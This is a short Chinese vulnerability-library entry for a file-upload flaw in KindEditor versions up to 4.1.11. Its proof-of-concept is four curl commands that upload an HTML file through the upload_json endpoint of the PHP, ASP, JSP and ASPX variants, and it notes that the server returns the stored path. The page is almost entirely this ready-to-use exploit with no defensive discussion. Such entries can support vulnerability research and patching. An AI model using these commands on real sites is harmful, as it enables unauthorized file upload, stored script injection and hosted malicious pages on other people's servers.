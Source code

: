 ```yaml
---
title: 'kindeditor上传漏洞'
date: Tue, 22 Sep 2020 16:48:59 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

kindeditor <= 4.1.11

### 漏洞POC

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
​```返回值为路径 
```
![](../images/kindeditor%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/wp_editor_md_426f629be38b94a1a89e63d533be9467.jpg)